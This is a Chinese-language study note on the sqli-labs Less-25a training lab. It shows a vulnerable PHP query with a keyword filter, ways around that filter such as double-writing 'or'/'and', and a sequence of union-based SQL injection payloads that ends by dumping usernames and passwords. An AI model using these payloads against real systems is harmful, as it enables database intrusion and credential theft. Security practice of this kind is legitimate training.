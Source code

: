 ```yaml
---
title: less25a
url: https://www.yuque.com/u29002979/ep2zrx/zy3amxnre03p9s6u
---
```


```bash
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";

$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
```

> 用or变成oorr 或 用||代替or
> 用and变成aandnd 或 用&&替代and
> 注：在url中&&还有传参的作用如果需要使用&&需要进行url编码

与Less25的区别是数字型注入

`1'`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-25a\index.php** on line **37**

```bash
测试字段数
1 oorrder by 4-- +没有第4列
1 oorrder by 3-- +返回正常，有3个字段。

检查回显点
-1 union select 1,2,3-- +
显示2，3是回显点

爆破数据库名称
-1 union select 1,2,(select database())-- +

爆破数据表
-1 union select 1,2,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database())--+

爆破字段名称
-1 union select 1,2,(select group_concat(column_name) from infoorrmation_schema.columns where table_schema=database() aandnd table_name='users')--+

爆破字段内容
-1 union select 1,2,(select group_concat(username,0x7e,passwoorrd) from users)--+
```
